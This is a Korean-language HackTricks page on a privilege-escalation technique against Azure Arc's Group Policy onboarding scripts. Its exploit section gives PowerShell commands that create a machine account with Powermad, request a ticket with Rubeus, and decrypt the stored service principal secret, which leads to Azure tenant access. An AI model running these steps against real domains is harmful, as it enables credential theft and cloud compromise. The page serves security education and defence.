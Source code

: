 # Az - Azure Arc 취약한 GPO 배포 스크립트

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

### 문제 식별

Azure Arc는 새로운 내부 서버(도메인에 가입된 서버)를 Azure Arc로 통합하는 데 그룹 정책 개체 방법을 사용합니다. 이를 위해 Microsoft는 온보딩 프로세스를 시작하는 데 필요한 배포 툴킷을 제공합니다. ArcEnableServerGroupPolicy.zip 파일 내에는 DeployGPO.ps1, EnableAzureArc.ps1 및 AzureArcDeployment.psm1 스크립트가 포함되어 있습니다.

DeployGPO.ps1 스크립트를 실행하면 다음 작업이 수행됩니다:

1. 로컬 도메인 내에서 Azure Arc 서버 온보딩 GPO를 생성합니다.
2. 온보딩 프로세스용으로 생성된 지정된 네트워크 공유에 EnableAzureArc.ps1 온보딩 스크립트를 복사합니다. 해당 공유에는 Windows 설치 프로그램 패키지도 포함됩니다.

이 스크립트를 실행할 때 시스템 관리자는 **ServicePrincipalId** 및 **ServicePrincipalClientSecret**와 같은 두 가지 주요 매개변수를 제공해야 합니다. 또한 도메인, 공유를 호스팅하는 서버의 FQDN 및 공유 이름과 같은 다른 매개변수도 필요합니다. 테넌트 ID, 리소스 그룹 및 기타 필요한 정보도 스크립트에 제공해야 합니다.

AzureArcDeploy 디렉토리에 DPAPI-NG 암호화를 사용하여 지정된 공유에 암호화된 비밀이 생성됩니다. 암호화된 비밀은 encryptedServicePrincipalSecret라는 파일에 저장됩니다. 이를 증명하는 증거는 DeployGPO.ps1 스크립트에서 찾을 수 있으며, 암호화는 ProtectBase64를 호출하여 $descriptor 및 $ServicePrincipalSecret를 입력으로 사용하여 수행됩니다. 설명자는 도메인 컴퓨터 및 도메인 컨트롤러 그룹 SID로 구성되어 있어 ServicePrincipalSecret를 도메인 컨트롤러 및 도메인 컴퓨터 보안 그룹만이 복호화할 수 있도록 보장합니다. (스크립트 주석 참조)
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

다음과 같은 조건이 있습니다:

1. 내부 네트워크에 성공적으로 침투했습니다.
2. Active Directory 내에서 컴퓨터 계정을 생성하거나 제어할 수 있는 능력이 있습니다.
3. AzureArcDeploy 디렉토리를 포함하는 네트워크 공유를 발견했습니다.

AD 환경 내에서 컴퓨터 계정을 얻는 여러 가지 방법이 있습니다. 가장 일반적인 방법 중 하나는 컴퓨터 계정 할당량을 악용하는 것입니다. 다른 방법으로는 취약한 ACL이나 다양한 다른 구성 오류를 통해 컴퓨터 계정을 compromise하는 것이 있습니다.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
한 번 머신 계정을 획득하면 해당 계정을 사용하여 인증할 수 있습니다. runas.exe 명령을 netonly 플래그와 함께 사용하거나 Rubeus.exe를 사용하여 pass-the-ticket을 사용할 수 있습니다.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
저희 컴퓨터 계정의 TGT가 메모리에 저장되어 있으면, 다음 스크립트를 사용하여 서비스 주체 비밀을 복호화할 수 있습니다.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

이 시점에서 우리는 encryptedServicePrincipalSecret 파일과 동일한 네트워크 공유에 저장된 ArcInfo.json 파일에서 Azure에 연결하는 데 필요한 나머지 정보를 수집할 수 있습니다. 이 파일에는 TenantId, servicePrincipalClientId, ResourceGroup 등과 같은 세부 정보가 포함되어 있습니다. 이 정보를 사용하여 우리는 Azure CLI를 사용하여 침해당한 서비스 주체로 인증할 수 있습니다.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
